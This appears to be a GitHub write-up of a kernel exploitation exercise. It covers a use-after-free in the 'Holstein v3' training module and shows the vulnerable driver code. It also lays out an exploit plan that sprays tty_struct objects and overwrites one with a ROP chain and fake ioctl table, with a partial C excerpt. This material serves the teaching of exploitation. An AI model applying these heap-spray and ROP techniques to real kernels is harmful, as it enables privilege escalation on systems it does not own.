

## Holstein v3: Use After Free

## Table of Contents

- [Vulnerability module analysis](#vulnerability-module-analysis)
- [The ideas](#the-ideas)
- [Exploit code](#exploit-code)

## Vulnerability module analysis

```c
static ssize_t module_read(struct file *file,
                           char __user *buf, size_t count,
                           loff_t *f_pos)
{
  printk(KERN_INFO "module_read called\n");

  if (count > BUFFER_SIZE) {
    printk(KERN_INFO "invalid buffer size\n");
    return -EINVAL;
  }

  if (copy_to_user(buf, g_buf, count)) {
    printk(KERN_INFO "copy_to_user failed\n");
    return -EINVAL;
  }

  return count;
}

static ssize_t module_write(struct file *file,
                            const char __user *buf, size_t count,
                            loff_t *f_pos)
{
  printk(KERN_INFO "module_write called\n");

  if (count > BUFFER_SIZE) {
    printk(KERN_INFO "invalid buffer size\n");
    return -EINVAL;
  }

  if (copy_from_user(g_buf, buf, count)) {
    printk(KERN_INFO "copy_from_user failed\n");
    return -EINVAL;
  }

  return count;
}
```

As you can see, there is no no Heap Overflow now, the program checks the size of the input buffer before copying data from user space to kernel space. However, there is still a Use After Free vulnerability in the code `module_close`:

```c
static int module_close(struct inode *inode, struct file *file)
{
  printk(KERN_INFO "module_close called\n");
  kfree(g_buf);
  return 0;
}
```

In this function, the memory allocated for `g_buf` is freed using `kfree()`. But what if we open the device file multiple times and then close it? For example:

```c
fd1 = open("/dev/holstein", O_RDWR);
fd2 = open("/dev/holstein", O_RDWR);
close(fd1);
```

In this case the `g_buf` is overwritten when the second file descriptor is opened, and when we close the first file descriptor, the memory pointed to by `g_buf` is freed. However, the second file descriptor still holds a reference to the same memory location, which has now been freed. If we then try to read from or write to the device using the second file descriptor, we will be accessing memory that has already been freed, leading to a Use After Free vulnerability.

## The ideas

The idea to exploit this vulnerability is pretty simple, we open the device 2 times, then close the first file descriptor, after that spray for the `tty_struct` object to occupy the freed memory, finally we can read or write to the `tty_struct` object through the second file descriptor. Although after spraying, the `tty_struct` object is overlapped with `g_buf`, but we can't use `ioctl` with that `spray_fd` because the way we read and write to the device is through `g_buf`, this lead to some important elements in `tty_struct` changed. So to overcome this problem, just open 2 more file descriptors to the device, then close the second one, this will make the `tty_struct` object in a stable state:

```c
    logInfo("Overwriting tty_struct target-1 with ROP chain and fake ioctl ops");
    write(fd2, buf, 0x400);

    logInfo("UAF: open fd3, fd4; close fd3");
    fd3 = open("/dev/holstein", O_RDWR);
    fd4 = open("/dev/holstein", O_RDWR);
    if (fd3 < 0 || fd4 < 0) errExit("open");
    close(fd3); // kfree(g_buf)

    logInfo("Spray %d tty_struct objects", SPRAY_NUM / 2);
    for (int i = SPRAY_NUM / 2; i < SPRAY_NUM; i++)
    {
        _spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
        if (_spray[i] == -1)
            perror("open");
    }
```

You can view the diagram below for a better understanding:



## Exploit code

[:DD](./exp/)
